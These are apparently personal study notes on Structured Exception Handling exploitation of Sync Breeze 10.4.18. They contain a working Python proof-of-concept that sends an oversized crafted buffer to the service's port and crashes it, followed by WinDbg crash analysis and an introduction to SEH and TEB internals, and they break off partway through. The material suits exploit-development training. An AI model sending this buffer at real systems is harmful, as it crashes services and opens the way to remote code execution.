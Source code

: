 #### Structured Exception Handling (SEH)

As opposed to classic buffer overflows, there are avenues to exploit other structures and pointer to get code execution.

An example being the Windows exception-handling structure, which can be demonstrated in 10.4.18 of Sync Breeze

1. Crash the Application 
2. Control EIP 
3. Make Space for Shellcode 
4. Check Bad Characters 
5. Find a Return Instruction 
6. Jump to ESP 
7. Generate Shellcode

## Crash the Application
Provided POC script: crafts a custom protocol header with a large buffer
```
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 9121
  size = 1000

  inputBuffer = b"\x41" * size

  header =  b"\x75\x19\xba\xab"
  header += b"\x03\x00\x00\x00"
  header += b"\x00\x40\x00\x00"
  header += pack('<I', len(inputBuffer))
  header += pack('<I', len(inputBuffer))
  header += pack('<I', inputBuffer[-1])

  buf = header + inputBuffer 

  print("Sending evil buffer...")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buf)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")

```
- Attach Windbg on Sync Breeze in the VM and run the script
- The process crashes and we see an access violation, EAX has been overwritten as `eax=41414141`. The program tries to deference a pointer value from the EAX register and crashes

## Analyzing the Crash
- The program tries to reach a location at offset 0x24 from the EAX, which is out of program memory, `call dword ptr [eax+24h]`
- EIP is still not overflowed, but if we print the values on the stack with `dds esp L30`, we see that some values did make it, just not quite to EIP.
- press g, and we get a new crash, which show EIP has been overflowed
- The first error handler was a 'first chance exception' which is a notification that an unexpected event occurred during execution

## Intro to SEH
**Hardware exceptions** are initiated by the CPU. We encountered a typical hardware exception when our script crashed the Sync Breeze service as the CPU attempted to dereference an invalid memory address.

**Software exceptions** are explicitly initiated by applications when the execution flow reaches unexpected or unwanted conditions. For example, a software developer raises an exception (try/except) in their code to signal a function could not execute normally because of an invalid input argument.

> A software exception raised in code will leverage the SEH (Structure Exception Handling) mechanism in Windows OS.

Structured exception handling works on a per-thread level, and each thread is identified by the Thread Environment Block (TEB) which stores info related to each thread.

...

`dt nt!_TEB`